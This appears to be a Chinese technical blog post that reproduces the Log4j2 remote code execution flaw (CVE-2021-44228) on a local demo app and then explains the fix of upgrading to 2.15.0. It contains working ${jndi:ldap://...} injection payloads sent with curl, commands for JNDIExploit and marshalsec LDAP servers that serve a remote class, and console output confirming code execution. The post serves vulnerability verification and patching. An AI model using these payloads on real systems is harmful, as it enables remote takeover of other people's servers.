 ```yaml
---
layout: post
title: Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
categories: Java
description: Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
keywords: cve, log4j, log4j2, 漏洞
---
```


近期，大家都被这个**核弹级**漏洞搞疯了，各种紧急生产补丁的上，所以咱也来凑凑热闹

## 问题
这个漏洞到底有多严重？基本上看到`远程代码执行`，就是非常严重的漏洞，因为这代表攻击者，可以在被攻击者服务器上，执行任何想要的操作。

## 思考
怎么验证存在及修复了这个漏洞？

## 复现
### 基于JNDIExploit，搭建LDAP
- 参考：<https://github.com/Mr-xn/JNDIExploit-1>
- `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i localhost`

### 创建一个Web工程（模拟被攻击的系统，如果验证已有系统可跳过）
- 如：<https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228>
- 启动

### 见证奇迹的时刻
- 请求：`curl -d 'val=${jndi:ldap://127.0.0.1:1389/SkTest211213Before}' -d 'otherKey=otherVal' -X POST http://localhost:8081/demo/cve/y2021/s44228/log`
- JNDIExploit控制台输出结果（说明log4j2存在CVE-2021-44228漏洞）
```shell
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
```

## 解决
参考官方解决意见，升级版本到`2.15.0`，包括但不限于如下方式：
- SpringBoot项目
```xml
  <properties>
    <java.version>1.8</java.version>
    <log4j2.version>2.15.0</log4j2.version><!-- add this property to fix CVE-2021-44228 -->
  </properties>
```

## 回顾
### 原理
- log4j2在打印`${xxx}`内容时，会当命令执行
### 远程代码执行
#### 将漏洞文件放于某Web服务器中
- 如：将 <https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228/src/main/resources/static/Log4j2Rce.class> 文件放于某Web服务器中
- 或启动 <https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228> 工程

#### 通过marshalsec，搭建LDAP
- 参考：<https://github.com/mbechler/marshalsec>
- 命令（根据需要替换Web服务器url）：`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8081/#Log4j2Rce" 1389`

### 创建一个Web工程（模拟被攻击的系统，如果验证已有系统可跳过）
- 如：<https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228>
- 启动（如上面已启动，则无需再启动）

#### 见证奇迹的时刻
- 请求：`curl -d 'val=${jndi:ldap://127.0.0.1:1389/Log4j2Rce}' -d 'otherKey=otherVal' -X POST http://localhost:8081/demo/cve/y2021/s44228/log`
- org.shaneking.demo.cve.y2021.s44228.web控制台输出结果（说明log4j2存在CVE-2021-44228漏洞）
```shell
2021-12-15 01:58:09.458  INFO 45940 --- [nio-8081-exec-2] o.s.w.s.DispatcherServlet                : Completed initialization in 16 ms
SkTest211213Before: will print when Log4j2Rce loaded in static.
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:09.795  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:10.332  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : RAW = ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:10.351  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : FMT = ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
```

## 附录
- 基于DREAD模型的漏洞等级计算：<https://www.secrss.com/articles/5566>
![](/images/posts/2021/12/db5608769f509557cb99ff7e464bd059.jpg)
- 安全漏洞如何评级：<https://www.zhihu.com/question/53669275>
![](/images/posts/2021/12/v2-de2ba8149eeac2cc442c1d3214f5f44f_1440w.jpg)
- 漏洞等级说明：<https://help.aliyun.com/document_detail/28388.html>
